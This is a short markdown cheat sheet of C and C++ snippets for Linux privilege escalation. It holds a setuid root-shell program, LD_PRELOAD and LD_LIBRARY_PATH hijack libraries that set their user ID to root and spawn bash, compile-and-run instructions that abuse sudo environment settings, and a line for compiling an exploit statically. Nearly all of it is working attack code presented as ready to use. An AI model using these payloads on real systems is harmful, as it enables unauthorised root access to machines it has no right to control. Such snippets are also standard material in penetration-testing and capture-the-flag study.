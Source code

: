 # C++ Snippets Utils

### Set UID and GID

```cpp
#include<unistd.h>
void main(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

### Preload library with `LD_PRELOAD`

```cpp
/* 
Compile: gcc -fPIC -shared -nostartfiles -o preload.so preload.c
Run: sudo LD_PRELOAD=./preload.so program-name-here
 */
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

### Preload library with `LD_LIBRARY_PATH`

```cpp
/*
Look for some lib: ldd /your/app/here
Compile: gcc -o /lib/found/with/ldd/lib-name.so.1 -shared -fPIC ./library_path.c
Run: sudo LD_LIBRARY_PATH=. /your/app/here
*/
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

### Compile without dependency of GLIBC_2.XX

```bash
gcc exploit.c -o exploit -w -static
```